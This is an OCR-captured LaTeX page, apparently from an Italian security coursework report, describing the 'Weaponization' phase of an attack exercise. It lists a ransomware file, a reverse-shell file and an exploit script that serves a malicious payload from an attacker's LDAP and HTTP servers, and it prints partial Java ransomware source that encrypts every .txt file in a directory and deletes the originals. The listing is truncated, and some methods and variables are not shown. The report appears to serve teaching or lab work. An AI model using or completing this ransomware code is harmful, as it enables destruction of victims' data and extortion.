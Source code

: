 \documentclass[a4paper, 12pt]{article}
\begin{document}
\subsubsection{Weaponization}
Questa fase consiste nel creare il malware per cifrare i dati e generare un payload per sfruttare la vulnerabilità identificata (\textbf{Resource Development}).
A tale scopo sono stati implementati i seguenti file:
\begin{itemize}
    \item \verb!Ransomware.java!: (figura \ref{fig:ransomware}) contiene il codice del malware che si occupa di cifrare i dati.
    \item \verb!ReverseShell.java!: (figura \ref{fig:revshell}) contiene il codice per aprire una reverse shell sulla macchina avversaria.
    \item \verb!exploit.py!: avvia i servizi LDAP e HTTP sul server attaccante e genera il payload malevolo.
\end{itemize}

\begin{figure}
    \centering
    \begin{lstlisting}
    public class Ransomware {
        private final static SecretKey key = Ransomware.generateKey();
        private final static String publicKey = "__public.key__";
    
        public Ransomware() throws Exception {
            Ransomware.sendKey();
            Ransomware.fireUp();
            while (true) {
                Ransomware.recover();
            }
        }
    
        private static void fireUp() {
            File file = new File(baseDir);
            File[] files = file.listFiles(new FilenameFilter() {
                @Override
                public boolean accept(File dir, String name) {
                    return name.toLowerCase().endsWith(".txt");
                }
            });
            for (File f : files) {
                Ransomware.encryptRoutine(baseDir + f.getName());
            }
        }
    
        private static void encryptRoutine(String fileName) {
            File inputFile = new File(fileName);
            File encryptedFile = new File(fileName + ".encrypted");
            try {
                Ransomware.encrypt(inputFile, encryptedFile);
                System.out.println(inputFile + " is encrypted now");
                inputFile.delete();
            } catch (Exception e) {
                System.out.println(e.getMessage());
                e.printStackTrace();
            }
        }
        
        //...
    }
\end{lstlisting}
    \caption{Ransomware - Codice Java}
    \label{fig:ransomware}
\end{figure}
\end{document}
